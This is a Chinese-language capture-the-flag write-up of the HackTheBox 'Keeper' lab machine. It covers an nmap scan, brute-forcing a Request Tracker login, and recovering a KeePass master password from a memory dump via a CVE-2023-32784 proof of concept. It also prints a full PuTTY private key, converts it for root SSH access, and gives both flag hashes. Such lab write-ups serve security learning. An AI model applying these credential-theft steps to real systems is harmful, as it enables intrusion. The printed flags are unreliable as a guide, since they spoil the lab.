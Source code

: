 HTB Keeper

使用nmap进行端口扫描

```
nmap -sV -sC -v -oN keeper 10.10.11.227
```

```
# Nmap 7.93 scan initiated Mon Jan  8 19:01:59 2024 as: nmap -sV -sC -v -oN keeper 10.10.11.227
Nmap scan report for 10.10.11.227
Host is up (1.4s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3539d439404b1f6186dd7c37bb4b989e (ECDSA)
|_  256 1ae972be8bb105d5effedd80d8efc066 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  8 19:02:40 2024 -- 1 IP address (1 host up) scanned in 40.50 seconds
                                                                                            
```

把域名及子域名添加到hosts，发现一个登录框，以及是RT 4.4.4版本

![image-20240109110844077](../图片/image-20240109110844077.png)

搜索RT4.4.4没啥重要漏洞能利用，尝试爆破登录框

![image-20240109110604457](../图片/image-20240109110604457.png)

![image-20240109110535596](../图片/image-20240109110535596.png)

爆破出来用户为root 密码为password

登录进去发现一个lnorgaard用户在他的备注中说的，初始密码设置为Welcome2023!

使用ssh登录到目标机



![image-20240109111608772](../图片/image-20240109111608772.png)

查看到用户flag

![image-20240109111802794](../图片/image-20240109111802794.png)

```
f4ed517f811635fb6ca7259a51cebe5e
```

使用sudo -l查看使用有sudo权限，并没有

![image-20240109112002594](../图片/image-20240109112002594.png)

上传linpeas，进行信息收集

![image-20240109112204637](../图片/image-20240109112204637.png)





在用户目录发现一个RT30000.zip压缩包

![image-20240109141736937](../图片/image-20240109141736937.png)



开启http传输到本地

![image-20240109141843146](../图片/image-20240109141843146.png)

解压后发现是一个dmp文件，dmp文件是系统错误产生的文件

G搜索dmp exploit， 发现有[CVE-2023-32784](https://github.com/vdohney/keepass-password-dumper)漏洞

![image-20240109151241360](../图片/image-20240109151241360.png)

**[keepass-转储-主密钥](https://github.com/matro7sh/keepass-dump-masterkey)**

```
git clone https://github.com/matro7sh/keepass-dump-masterkey.git
python poc.py KeePassDumpFull.dmp       
```

带●的是遗失的，第二个字符是猜测的，有些wp不懂就去看资料，说●像o，又懂完了，别误人子弟。

![image-20240109142019349](../图片/image-20240109142019349.png)

使用G搜索，密码为：rødgrød med fløde

![image-20240109142329057](../图片/image-20240109142329057.png)



下载密码管理器keepassxc打开passcodes

```
apt install keepassxc
keepassxc passcodes.kdbx
```

![](../图片/image-20240109145211212.png)

将备注复制到123.txt

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

下载putty工具，并将其转成openssh格式的id_rsa文件

```
apt install putty-tools
puttygen 123.txt -O private-openssh -o id_rsa
```

赋予id_rsa文件600权限，并用ssh 密钥文件连接

```
chmod 600 id_rsa
ssh root@10.10.11.227 -i id_rsa
```

![image-20240109150439210](../图片/image-20240109150439210.png)

```
13b55d7528b666b3dc00ce2caf264ffe
```

